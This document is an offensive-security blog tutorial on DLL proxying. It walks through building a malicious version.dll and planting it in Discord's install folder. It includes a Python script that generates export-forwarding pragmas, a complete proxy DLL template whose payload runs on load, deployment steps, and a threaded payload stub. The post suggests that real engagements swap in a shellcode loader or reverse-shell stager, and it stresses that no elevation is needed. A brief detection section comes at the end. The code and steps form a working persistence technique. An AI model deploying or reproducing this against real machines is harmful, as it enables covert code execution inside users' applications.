

# DLL Proxying

DLL hijacking is one of the most reliable and stealthy persistence and privilege escalation techniques on Windows. The idea is simple: trick a legitimate process into loading your malicious DLL instead of the real one. But a naive DLL hijack breaks the target application because your DLL does not implement the functions the application expects. That is where **DLL proxying** comes in.

DLL proxying solves this by making your malicious DLL transparently forward every exported function call to the real, original DLL - renamed and sitting next to it. The application gets the functionality it expects, your payload executes, and nobody notices anything is wrong.

This post walks through the complete workflow: finding a hijackable DLL using Process Monitor, enumerating its exports with a script, generating the proxy stubs, building the DLL, and deploying it against Discord as a target.

---

## DLL Hijacking vs DLL Proxying

**DLL Hijacking** exploits the order in which Windows searches for a DLL when an application calls `LoadLibrary` or resolves an import. If you can plant a DLL with the right name in a directory that is searched before the legitimate DLL's location, Windows loads yours instead.

**DLL Proxying** is DLL hijacking done properly. A pure hijack drops a DLL that only runs your payload - the application crashes immediately because none of the expected functions exist. Proxying adds export forwarding: your DLL re-exports every function the original provides, forwarding each call to the real renamed DLL. The application works normally while your code runs silently.



---

## Windows DLL Search Order

When a process calls `LoadLibrary("version.dll")` without a full path, Windows searches these locations in order:

1. The directory containing the application's `.exe` file
2. The System directory (`C:\Windows\System32`)
3. The 16-bit System directory (`C:\Windows\System`)
4. The Windows directory (`C:\Windows`)
5. The current working directory
6. Directories listed in the `PATH` environment variable

The attack targets **location 1**. If you can write a DLL named after a dependency into the application's own folder, Windows will load it before ever reaching `System32`. This works even when the DLL already exists in `System32` - the application directory takes priority.

> [!NOTE]
> This search order applies when `SafeDllSearchMode` is enabled (the default since Windows XP SP2). With it disabled the current working directory moves to position 2, making hijacking even easier.

---

## Step 1 - Finding Hijackable DLLs with Process Monitor

The tool for discovering DLL hijacking opportunities is **Process Monitor** from Sysinternals. It captures every file system and registry operation in real time. We filter for `NAME NOT FOUND` results on `.dll` files - these are DLLs the application tried to load but could not find, which means they are open for hijacking.

### Setting Up the Filters

Open Process Monitor and configure the following filters (`Filter -> Filter...`):

- **Path ends with** `.dll` - `Include`
- **Result is** `NAME NOT FOUND` - `Include`
- **Process Name is** `Discord.exe` - `Include` (or whatever target application you are testing)



### Reading the Results

Launch the target application while Process Monitor is capturing. After a few seconds you will see a list of DLL loads that returned `NAME NOT FOUND` - these are your candidates.



The results show every DLL the application tried to resolve but could not find in the expected location. Any of these is a potential hijacking target. The next step is picking the right one.

---

## Step 2 - Choosing the Right DLL

Not all candidates are equal. The ideal target DLL has:

- **Few exports** - fewer forwarded functions = less code to generate and less chance of breaking something
- **Commonly loaded** - the application must actually call functions from it during normal operation
- **Writable location** - you must be able to write to the application folder (or wherever the DLL is missing from)

### Why dbghelp.dll Is a Bad Choice

One of the first DLLs you might spot is `dbghelp.dll`. However it exports a very large number of functions - hundreds. Proxying hundreds of exports means generating hundreds of `#pragma comment` lines, and missing even one that the application calls will crash it.



### Choosing version.dll

`version.dll` exports only a small set of version-checking functions. It is loaded by many applications (Discord included) and its export list is compact enough to proxy completely in minutes.

---

## Step 3 - Enumerating Exports of version.dll

Before you can proxy a DLL you need to know every function it exports. You cannot miss any - if the application calls a function your proxy DLL does not export, it will crash.

The cleanest way is to write a short Python script using the `pefile` library to dump all exports and write the corresponding `#pragma comment` lines directly to a file. I built one for exactly this purpose - [inspect_dll_exports.py](https://github.com/ischyr/dll-proxing/blob/main/inspect_dll_exports.py). You can grab it from the repository, point it at any DLL, and it outputs ready-to-paste `#pragma comment` lines in seconds.

```python
import pefile

# Point this at the DLL you are proxying
TARGET_DLL = r"C:\Windows\System32\version.dll"
# This is the name you will give the renamed original
PROXY_TO   = "version2"

pe = pefile.PE(TARGET_DLL)

lines = []
if hasattr(pe, "DIRECTORY_ENTRY_EXPORT"):
    for exp in pe.DIRECTORY_ENTRY_EXPORT.symbols:
        if exp.name:
            name    = exp.name.decode("utf-8")
            ordinal = exp.ordinal
            lines.append(
                f'#pragma comment(linker, "/export:{name}={PROXY_TO}.{name},@{ordinal}")'
            )

with open("exported_functions.txt", "w") as f:
    f.write("\n".join(lines))

print(f"[+] Written {len(lines)} export forwards to exported_functions.txt")
```

Run the script, then inspect the output file to confirm all exports were captured.



For `version.dll` the script produces forwards for every exported function - things like `GetFileVersionInfoA`, `GetFileVersionInfoW`, `VerQueryValueA`, `VerQueryValueW`, and so on. The complete set of forwards will look like this:

```cpp
#pragma comment(linker, "/export:GetFileVersionInfoA=version2.GetFileVersionInfoA,@1")
#pragma comment(linker, "/export:GetFileVersionInfoByHandle=version2.GetFileVersionInfoByHandle,@2")
#pragma comment(linker, "/export:GetFileVersionInfoExA=version2.GetFileVersionInfoExA,@3")
#pragma comment(linker, "/export:GetFileVersionInfoExW=version2.GetFileVersionInfoExW,@4")
#pragma comment(linker, "/export:GetFileVersionInfoSizeA=version2.GetFileVersionInfoSizeA,@5")
#pragma comment(linker, "/export:GetFileVersionInfoSizeExA=version2.GetFileVersionInfoSizeExA,@6")
#pragma comment(linker, "/export:GetFileVersionInfoSizeExW=version2.GetFileVersionInfoSizeExW,@7")
#pragma comment(linker, "/export:GetFileVersionInfoSizeW=version2.GetFileVersionInfoSizeW,@8")
#pragma comment(linker, "/export:GetFileVersionInfoW=version2.GetFileVersionInfoW,@9")
#pragma comment(linker, "/export:VerFindFileA=version2.VerFindFileA,@10")
#pragma comment(linker, "/export:VerFindFileW=version2.VerFindFileW,@11")
#pragma comment(linker, "/export:VerInstallFileA=version2.VerInstallFileA,@12")
#pragma comment(linker, "/export:VerInstallFileW=version2.VerInstallFileW,@13")
#pragma comment(linker, "/export:VerLanguageNameA=version2.VerLanguageNameA,@14")
#pragma comment(linker, "/export:VerLanguageNameW=version2.VerLanguageNameW,@15")
#pragma comment(linker, "/export:VerQueryValueA=version2.VerQueryValueA,@16")
#pragma comment(linker, "/export:VerQueryValueW=version2.VerQueryValueW,@17")
```

The syntax `/export:FUNCNAME=DLL.FUNCNAME,@ORDINAL` tells the MSVC linker to create an export entry named `FUNCNAME` that the loader will resolve as a **forwarded export** directly to `DLL.FUNCNAME`. No stub function code is needed - Windows handles the forwarding at load time.

---

## Step 4 - Confirming the Target Location

Before writing any code, confirm that `version.dll` is actually present in the Discord installation folder. If it is not there already, the application is loading it from `System32` and your plant will intercept it.



The original `version.dll` is in the Discord folder. This confirms our plan: we will rename this to `version2.dll` (so our proxy can forward calls to it) and drop our malicious `version.dll` in its place.

---

## Step 5 - Building the Proxy DLL

### Project Setup in Visual Studio

1. Create a new **Dynamic-Link Library (DLL)** project in Visual Studio.
2. Open the main `.cpp` file (usually `dllmain.cpp`).
3. Paste the `#pragma comment` lines from `exported_functions.txt` directly below the `#include "pch.h"` line.
4. Add your payload inside `DLL_PROCESS_ATTACH`.

### The DLL Template

```cpp
#include "pch.h"

/* Paste the generated pragma lines here - one per exported function. */
#pragma comment(linker, "/export:GetFileVersionInfoA=version2.GetFileVersionInfoA,@1")
#pragma comment(linker, "/export:GetFileVersionInfoByHandle=version2.GetFileVersionInfoByHandle,@2")
#pragma comment(linker, "/export:GetFileVersionInfoExA=version2.GetFileVersionInfoExA,@3")
#pragma comment(linker, "/export:GetFileVersionInfoExW=version2.GetFileVersionInfoExW,@4")
#pragma comment(linker, "/export:GetFileVersionInfoSizeA=version2.GetFileVersionInfoSizeA,@5")
#pragma comment(linker, "/export:GetFileVersionInfoSizeExA=version2.GetFileVersionInfoSizeExA,@6")
#pragma comment(linker, "/export:GetFileVersionInfoSizeExW=version2.GetFileVersionInfoSizeExW,@7")
#pragma comment(linker, "/export:GetFileVersionInfoSizeW=version2.GetFileVersionInfoSizeW,@8")
#pragma comment(linker, "/export:GetFileVersionInfoW=version2.GetFileVersionInfoW,@9")
#pragma comment(linker, "/export:VerFindFileA=version2.VerFindFileA,@10")
#pragma comment(linker, "/export:VerFindFileW=version2.VerFindFileW,@11")
#pragma comment(linker, "/export:VerInstallFileA=version2.VerInstallFileA,@12")
#pragma comment(linker, "/export:VerInstallFileW=version2.VerInstallFileW,@13")
#pragma comment(linker, "/export:VerLanguageNameA=version2.VerLanguageNameA,@14")
#pragma comment(linker, "/export:VerLanguageNameW=version2.VerLanguageNameW,@15")
#pragma comment(linker, "/export:VerQueryValueA=version2.VerQueryValueA,@16")
#pragma comment(linker, "/export:VerQueryValueW=version2.VerQueryValueW,@17")

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        MessageBoxA(NULL, "Hi from malicious dll", "Hi from malicious dll", 0);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

### How the Forwarding Works

The `#pragma comment(linker, "/export:X=version2.X,@N")` lines instruct the MSVC linker to write **forwarded export** entries into the PE's Export Directory. When the application calls `GetFileVersionInfoW`, Windows sees that our DLL's export table entry for that function points to `version2.GetFileVersionInfoW`, and transparently loads `version2.dll` and calls its `GetFileVersionInfoW` instead. No code path in our DLL handles that call - Windows does the forwarding at the loader level.

Our `DllMain` with `DLL_PROCESS_ATTACH` runs exactly once when the application maps our DLL into memory - before any of the forwarded functions are ever called. This is where you put your payload.

> [!NOTE]
> For a proof of concept, `MessageBoxA` is fine. In a real engagement this would be a staged shellcode loader, a reverse shell stager, or a persistence mechanism - anything that runs under the context of the target process.

### Build Configuration

- Set the platform to **x64** (match the target application's architecture - Discord is 64-bit).
- Build configuration: **Release** (smaller binary, no debug symbols).
- Build the project with **Ctrl+Shift+B** or via `Build -> Build Solution`.

### Testing with rundll32.exe

Before touching the target application, test that your DLL loads and the payload fires without crashing:

```bash
rundll32.exe .\version.dll,whatever
```

`rundll32` loads the DLL and calls the `DLL_PROCESS_ATTACH` path in `DllMain`. The `whatever` export name does not need to exist - we just need the DLL to load. If everything is correct, you will see the MessageBox.



The `MessageBoxA` dialog confirms the DLL loads correctly and `DLL_PROCESS_ATTACH` fires. The next step is deployment.

---

## Step 6 - Deploying the Proxy

Now we perform the actual swap in the Discord installation folder:

1. **Rename** the original `version.dll` to `version2.dll` - this becomes the forwarding target.
2. **Copy** your newly built `version.dll` (the proxy) into the same folder.



The folder now contains:
- `version.dll` - your malicious proxy DLL (forwards all exports to `version2`)
- `version2.dll` - the original, renamed legitimate DLL (handles all real function calls)

When Discord launches it will find `version.dll` in its own directory first (search order position 1), load it, trigger `DLL_PROCESS_ATTACH`, and your payload fires. Every subsequent call to any `version.dll` function is transparently forwarded to `version2.dll`, so Discord functions completely normally.

---

## Step 7 - Execution

Launch Discord normally.



The `MessageBoxA` dialog appears immediately as Discord starts - proof that our proxy DLL was loaded in place of the legitimate one and `DLL_PROCESS_ATTACH` executed. After dismissing the dialog, Discord continues loading and operates without any errors because all forwarded exports are being handled by `version2.dll`.

---

## Why This Works - Summary

| Step | What Happens |
| ---- | ------------ |
| Discord starts | Windows resolves `version.dll` imports |
| Search order check | Finds `version.dll` in the app directory (our proxy) before `System32` |
| DLL loaded | `DLL_PROCESS_ATTACH` fires - payload runs |
| Function call e.g. `VerQueryValueW` | Export forwarder redirects to `version2.VerQueryValueW` |
| `version2.dll` loaded | Windows loads the original renamed DLL |
| Call resolved | Legitimate function executes, returns correct result to Discord |
| Application | Runs normally, user sees nothing wrong |

---

## Operationalising - Beyond MessageBoxA

For a real engagement the `DLL_PROCESS_ATTACH` block would contain something more useful:

```cpp
case DLL_PROCESS_ATTACH:
{
    // Run the payload in a new thread to avoid blocking DllMain
    // (long operations in DllMain can cause deadlocks)
    HANDLE hThread = CreateThread(
        NULL,               // default security
        0,                  // default stack size
        (LPTHREAD_START_ROUTINE)YourPayload,
        NULL,               // no parameter
        0,                  // run immediately
        NULL                // don't need thread ID
    );
    if (hThread) CloseHandle(hThread);
    break;
}
```

> [!EXPLOIT]
> Always run your payload in a new thread from `DLL_PROCESS_ATTACH`. Blocking `DllMain` (e.g., with a sleep, network call, or long computation) triggers the loader lock and can deadlock or crash the process. A `CreateThread` call returns immediately and lets the loader continue.

> [!WARNING]
> DLL proxying in an application folder typically does not require elevated privileges - only write access to that directory. On a standard Windows install, users have full write access to their own `%LOCALAPPDATA%\Discord\app-*\` folder, making this exploitable without any privilege escalation.

---

## Detection & Defence

For defenders, DLL proxying leaves several detectable signals:

- **Unexpected DLL in application directory** - file integrity monitoring on application folders will flag a new or modified `version.dll` that does not match the vendor's known-good hash.
- **Import discrepancy** - the malicious DLL imports `user32.dll` (for `MessageBoxA`) or other suspicious libraries that the real `version.dll` does not. A hash or import-table comparison reveals the substitution.
- **Forwarded exports pointing to unusual DLL names** - security tools scanning PE export directories will flag `version.dll` exporting `version2.GetFileVersionInfoA` rather than implementing the function directly.
- **Two DLLs with related names in an app folder** - `version.dll` and `version2.dll` appearing together in a non-system directory is a strong indicator.
- **Process behaviour** - `Discord.exe` spawning unexpected child processes, making unusual network connections, or loading additional DLLs shortly after the suspicious `version.dll` loads.

---

## References

- [DLL Search Order - Microsoft Docs](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order)
- [Process Monitor - Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)
- [PE Export Forwarding](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#export-address-table)
- [pefile - Python PE parsing library](https://github.com/erocarrera/pefile)
